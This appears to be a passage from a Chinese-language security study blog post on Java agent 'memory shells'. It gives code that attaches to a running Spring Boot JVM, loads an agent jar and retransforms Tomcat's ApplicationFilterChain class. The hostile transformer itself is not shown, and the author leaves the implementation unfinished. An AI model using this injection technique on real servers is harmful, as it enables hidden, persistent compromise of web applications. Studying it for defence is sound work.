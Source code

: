 ```java
import org.example.Hello_Transform;

import java.lang.instrument.Instrumentation;
import java.lang.instrument.UnmodifiableClassException;
public class JAVA_Agentmain {
    public static void agentmain(String args, Instrumentation inst) throws Exception {
        Class [] classes=inst.getAllLoadedClasses();

        for (Class cls:classes){
            if(cls.getName().equals("org.apache.catalina.core.ApplicationFilterChain")){
                inst.addTransformer(new Hello_Transform(),true);
                inst.retransformClasses(cls);

            }

        }
    }

}
```
```java
Manifest-Version: 1.0
Agent-Class: org.SpringMeshell.JAVA_Agentmain
Can-Redefine-Classes: true
Can-Retransform-Classes: true

```
最终就是 inject 最终注入类了
```java
import com.sun.tools.attach.VirtualMachine;
import com.sun.tools.attach.VirtualMachineDescriptor;

import java.util.List;

public class Inject_Agent {
    public static void main(String[] args) throws Exception {
        //调用VirtualMachine.list()获取正在运行的JVM列表
        List<VirtualMachineDescriptor> list = VirtualMachine.list();
        for (VirtualMachineDescriptor vmd : list){
            System.out.println(vmd.displayName());
            //遍历每一个正在运行的JVM，如果JVM名称为Sleep_Hello则连接该JVM并加载特定Agent
            if (vmd.displayName().equals("JavaAgentSpringBootApplication")){
                System.out.println("正在注入");
                //连接指定JVM
                VirtualMachine virtualMachine = VirtualMachine.attach(vmd.id());

                //加载Agent
                virtualMachine.loadAgent("H:\\javasecurity\\AgentMeshell\\target\\AgentInstrumentation-1.0-SNAPSHOT-jar-with-dependencies.jar");

                //断开JVM连接
                virtualMachine.detach();
            }
        }
    }
}
```
之后的实现就不做了，因为 Spring 这块的知识还在补习

## 回顾一下
其实学 agent 内存马我的目的不是其本身，而是它的前置知识很诱人，就是 JAVAagent 和 javassist，所以这块的重点也自然放在这两个上，然后现阶段的主要工作是在做前面知识的复习，以及后续知识的推进，JAVAagent 这块的知识对于我来说是新的知识，所以接下来是对前面旧知识的复习，包括 Spring 基础，RMI，JNDI 等
